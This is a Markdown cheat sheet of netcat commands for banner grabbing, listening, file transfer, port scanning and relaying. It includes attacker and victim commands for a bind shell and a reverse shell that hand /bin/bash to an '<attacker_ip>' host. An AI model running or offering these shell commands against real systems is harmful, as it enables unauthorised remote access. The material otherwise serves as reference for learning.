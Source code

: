 * [Netcat](#netcat)
  * [banner grabbing](#banner-grabbing)
  * [listener](#listener)
  * [transfer file](#transfer-file)
  * [port scanning](#port-scanning)
  * [executing program](#executing-program)
  * [running shell](#running-shell)
  * [relaying](#relaying)

# Netcat
Refs:
* <https://www.youtube.com/watch?v=7YrYRQQLjdA>
* <https://www.poftut.com/netcat-nc-command-tutorial-examples/>
## banner grabbing
```sh
# ssh
netcat 192.251.124.3 22
# SMTP
netcat 192.251.124.3 25

# HTTP
netcat 192.251.124.3 25
GET / HTTP/1.1
```
## listener
```sh
netcat -l -p 6789
```
## transfer file
```sh
# sender
netcat <receiver_ip_addr> 6789 < send_file
# receiver
netcat -l -p 6789 > recv_file
```
## port scanning
```sh
netcat -v -w1 -z <target_ip> <port_range>
```
`-v`  : verbose

`-w1` : wait for 1 sec before timeout

`-z`  : No I/O
## executing program
- The program can be an executable file (EXE, ELF, etc) or a script (shell, ruby, python etc)
- Any I/O is redirected to the established socket
```sh
netcat -e /path/to/executable
```
## running shell
### bind shell
```sh
# attacker
netcat <victim_ip> 1234
# victim
netcat -l -p 1234 -e /bin/bash
```
### reverse shell
```sh
# attacker
netcat -l -p 1234
# victim
netcat <attacker_ip> 1234 -e /bin/bash
```
## relaying
Refs
* <https://www.youtube.com/watch?v=FLoe9S4TASk>
### server client relay
```
   ------                 -------------                 ----- 
  |client|-------------->|server|client|-------------->|server|
   ------                 -------------                 ------
                             Relay                      Target
```
```sh
# on relay
mknod mypipe p
netcat -l -p 6789 < mypipe | netcat <target_ip> 80 > mypipe
```
